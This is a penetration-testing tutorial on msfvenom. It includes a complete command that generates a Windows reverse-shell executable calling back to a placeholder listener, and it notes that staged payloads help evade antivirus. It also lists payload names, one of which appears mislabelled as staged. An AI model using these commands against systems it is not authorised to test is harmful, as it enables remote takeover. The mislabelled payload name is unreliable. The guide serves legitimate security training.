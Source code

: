 # msfvenom

Msfvenom is an integral part of the Metasploit framework, serving as a powerful tool for generating payloads, particularly for reverse and bind shells. It is widely utilized in lower-level exploit development, especially for creating hexadecimal shellcode in scenarios like Buffer Overflow exploits. Beyond that, msfvenom can generate payloads in various formats, including `.exe`, `.aspx`, `.war`, and `.py`. This guide provides a brief overview of msfvenom's capabilities and syntax, focusing on its application in penetration testing.

### Basic Syntax

The standard syntax for using msfvenom is:

```bash
msfvenom -p <PAYLOAD> <OPTIONS>
```

#### Example Command

To generate a Windows x64 Reverse Shell in an executable format, you would use the following command:

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
{% endcode %}

#### Breakdown of Options

* **-p** : Specifies the payload to be used.
* **-f** : Defines the output format (e.g., `exe` for executable files).
* **-o** : Indicates the output location and filename for the generated payload.
* **LHOST=**: Sets the IP address to connect back to (typically your tun0 IP when using TryHackMe).
* **LPORT=**: Specifies the local port for the connection (any port between 0 and 65535, with ports below 1024 requiring root privileges).

### Staged vs. Stageless Payloads

#### Staged Payloads

Staged payloads are transmitted in two parts. The first part, known as the **stager**, is executed on the target server and connects back to a listener. The stager does not contain the reverse shell code; instead, it retrieves the actual payload from the listener. This method helps evade traditional antivirus solutions by keeping the payload off the disk.

* **Listener Requirement**: Staged payloads require a special listener, typically the Metasploit `multi/handler`.

#### Stageless Payloads

Stageless payloads are self-contained and execute immediately upon being run. They are easier to use but can be more easily detected by antivirus and intrusion detection systems due to their larger size.

### Meterpreter Shells

Meterpreter is Metasploit's advanced shell, offering a stable and feature-rich environment for post-exploitation tasks. It supports functionalities like file uploads and downloads, making it essential for effective exploitation. However, Meterpreter shells must be managed within Metasploit.

### Payload Naming Conventions

Understanding the naming conventions for payloads is crucial when working with msfvenom. The basic format is:

```bash
<OS>/<arch>/<payload>
```

#### Examples

* **Linux 32-bit Stageless**: `linux/x86/shell_reverse_tcp`
* **Windows 32-bit Stageless**: `windows/shell_reverse_tcp`
* **Windows 64-bit Staged**: `windows/x64/meterpreter/reverse_tcp`
* **Linux 32-bit Staged**: `linux/x86/meterpreter_reverse_tcp`

#### Listing Available Payloads

To view all available payloads, use the command:

```bash
msfvenom --list payloads
```

This command can be piped into `grep` to filter for specific payloads, making it easier to find what you need.

```bash
msfvenom --list payloads | grep "windows/x64/meterpreter/reverse_tcp"
```


